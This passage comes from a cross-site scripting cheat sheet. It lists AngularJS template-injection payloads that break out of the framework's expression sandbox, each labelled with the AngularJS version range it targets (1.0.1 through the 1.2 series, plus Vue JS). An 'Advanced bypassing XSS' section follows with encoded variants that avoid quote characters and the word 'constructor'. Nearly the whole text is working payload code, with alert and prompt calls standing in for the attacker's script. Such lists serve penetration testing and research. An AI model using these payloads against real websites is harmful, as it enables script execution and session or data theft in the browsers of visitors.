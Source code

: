 ```javascript
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

AngularJS 1.2.19 - 1.2.23

```javascript
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```

AngularJS 1.2.6 - 1.2.18

```javascript
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
```

AngularJS 1.2.2 - 1.2.5

```javascript
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
```

AngularJS 1.2.0 - 1.2.1

```javascript
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

AngularJS 1.0.1 - 1.1.5 and Vue JS

```javascript
{{constructor.constructor('alert(1)')()}}
```

### Advanced bypassing XSS

AngularJS (without `'` single and `"` double quotes) by [@Viren](https://twitter.com/VirenPawar_)

```javascript
{{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(97,108,101,114,116,40,49,41))()}}
```

AngularJS (without `'` single and `"` double quotes and `constructor` string)

```javascript
{{x=767015343;y=50986827;a=x.toString(36)+y.toString(36);b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,toString()[a].fromCharCode(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))()}}
```

```javascript
{{x=767015343;y=50986827;a=x.toString(36)+y.toString(36);b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,toString()[a].fromCodePoint(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))()}}
```
